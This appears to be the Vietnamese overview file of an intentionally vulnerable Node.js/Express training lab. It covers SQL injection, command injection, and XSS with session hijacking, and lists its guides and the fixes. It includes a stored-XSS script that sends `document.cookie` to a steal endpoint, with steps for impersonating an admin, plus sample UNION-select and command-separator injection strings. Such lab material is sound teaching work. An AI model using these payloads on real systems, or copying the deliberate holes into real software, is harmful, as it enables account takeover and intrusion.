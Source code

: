 ### XSS + Session Hijacking (Nâng cao)
```html
<!-- 1. Login as user1 -->
<!-- 2. Post comment: -->
<script>fetch('/api/steal?cookie='+document.cookie)</script>

<!-- 3. Admin vào xem → Cookie stolen! -->
<!-- 4. Check server console hoặc database để lấy cookie -->
<!-- 5. Dùng cookie để giả mạo admin -->
```

## 📚 Tài Liệu

### Guides (12 files)
1. **README.md** - Tổng quan dự án
2. **QUICKSTART.md** - Bắt đầu nhanh
3. **DEMO.md** - SQL Injection chi tiết
4. **CMDI-GUIDE.md** - Command Injection chi tiết
5. **AUTH-GUIDE.md** - Authentication Bypass + XSS chi tiết
6. **XSS-DEMO.md** - XSS + Session Hijacking (MỚI)
7. **CHANGELOG.md** - Lịch sử thay đổi
8. **SUMMARY.md** - Tóm tắt dự án
9. **FINAL-SUMMARY.md** - Tổng kết
10. **INFO.txt** - Thông tin tổng quan
11. **TEST.md** - Test cases
12. **COMPLETE.md** - File này

### Scripts
- **XSS-TEST.sh** - Test tự động XSS (MỚI)

## 🛠️ Tech Stack

- **Backend:** Node.js + Express
- **Database:** SQLite3 (4 bảng: posts, users, secret, comments)
- **Template:** EJS (với XSS vulnerability)
- **Cookie:** cookie-parser
- **Frontend:** HTML5 + CSS3 + Vanilla JS

## 🔒 Lỗ Hổng Được Thực Hành

### 1. SQL Injection
- **Vulnerable Code:** Query concatenation
- **Attack:** `' UNION SELECT ...`
- **Fix:** Prepared Statements

### 2. Command Injection
- **Vulnerable Code:** `exec(cmd)` with user input
- **Attack:** `8.8.8.8; malicious_command`
- **Fix:** `execFile()` + input validation
